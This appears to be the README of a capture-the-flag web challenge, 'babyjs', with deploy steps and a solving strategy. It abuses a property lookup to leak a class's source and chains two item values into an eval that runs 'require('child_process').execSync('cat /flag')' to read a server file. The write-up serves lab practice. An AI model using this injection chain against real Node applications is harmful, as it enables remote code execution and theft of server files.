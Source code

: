 # babyjs
## Info
* Title:babyjs
* Description: read /flag 
* Attachment: diff

## Deploy
* Requirement
 docker-compose, 30002/tcp
 <br>
* bash script
 ```bash
 cd deploy
 ./run.sh
 ```


## Solving Strategy

1. You can find "bag[names[i]]" in the diff file ("/src/views/bag.ejs")
2. If you send the query "GET /items/bag?names[]=constructor", you can get the source code of class Bag
 - bag[constructor] ==> bag.constructor
3. Add an item(Name:"@neRing"), you can run its description with "eval()". but, description length < 30
4. Add below items.
 - First item
 name: a
 value: require('child_process').execSync('cat /flag')

 - Second item
 name: @neRing
 value: this.a=eval(this.a)
5. Get the flag.
